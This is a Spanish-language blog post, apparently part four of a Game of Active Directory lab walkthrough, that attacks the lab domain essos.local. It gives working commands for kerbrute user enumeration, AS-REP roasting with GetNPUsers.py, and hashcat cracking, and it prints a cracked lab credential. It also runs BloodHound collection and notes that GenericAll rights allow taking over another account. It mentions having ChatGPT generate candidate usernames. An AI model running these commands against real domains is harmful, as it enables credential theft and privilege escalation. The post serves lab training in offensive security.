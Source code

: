 ```yaml
---
layout: single
title: Game of Active Directory - Parte 4
excerpt: "En esta cuarta parte vamos a atacar el dominio essos.local. Conseguiremos credenciales con asreproasting, para luego ver con bloodhound que tenemos el rol GenericAll sobre otra cuenta, y nos aprovecharemos de eso para escalar privilegiosy conseguir permisos de system."
date: 2024-04-24
classes: wide
header:
  teaser: /assets/images/Goad/logo_GOAD.jpg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```


![](/assets/images/Goad/logo_GOAD.jpg)


En esta cuarta parte vamos a atacar el dominio essos.local. Conseguiremos credenciales con asreproasting, para luego ver con bloodhound que tenemos el rol GenericAll sobre otra cuenta, y nos aprovecharemos de eso para escalar privilegiosy conseguir permisos de system.

Sabemos que este dominio tiene una máquina con la ip 192.168.56.23 y un controlador de dominio en la ip 192.168.56.12, así que vamos a intentar conseguir un listado de usuarios.

Le podemos pedir a chatgpt que nos cree una lista con personajes de juego de tronos en el formato nombre.apellido para luego usar alguna herramienta que nos diga cuales de estos son válidos.

Después de pedirle varias veces que nos cree una lista más larga nos da una lista con 50 candidatos.


![](/assets/images/Goad/chatgpt.jpg)


Ahora creamos un archivo con la lista de usuarios y probamos con kerbrute los que son válidos.

```bash
kerbrute userenum --domain "essos.local" --dc 192.168.56.12 users_chatgpt.txt
```


![](/assets/images/Goad/kerbrute.jpg)


Y vemos que hay 5 usuarios válidos. Ahora podemos probar con la vulnerabilidad asreproasting para ver si conseguimos alguna credencial.

```bash
GetNPUsers.py essos.local/ -no-pass -usersfile users_essos.txt
```

![](/assets/images/Goad/missandei.jpg)


Y conseguimos el hash del usuario misandei. Vamos a intentar crackearlo con hashcat.


```bash
hashcat -m 18200 asreproastable.missandei /usr/share/wordlists/rockyou.txt
```

![](/assets/images/Goad/hashcat_missandei.jpg)


Ya tenemos credenciales válidas en el dominio `misandei:fr3edom`


Ahora usaremos bloodhound para recolectar información útil del dominio y buscar vulnerabilidades.


```bash
bloodhound.py --zip -c All -d "essos.local" -u "missandei" -p "fr3edom" -dc "meereen.essos.local" -ns "192.168.56.12"
```

![](/assets/images/Goad/bloodhound.jpg)


Arrancamos neo4j y bloodhound y subimos el archivo zip que nos ha generado el comando anterior.


![](/assets/images/Goad/neo4j.jpg)


En bloodhound buscamos el usuario missandei y pinchamos en outbound onject control/First Degree Object Control y vemos que tiene el rol GenericAll sobre el usuario khal.drogo. Al disponer de esta ACL tenemos control sobre este usuario y podemos incluso cambiarle la contraseña.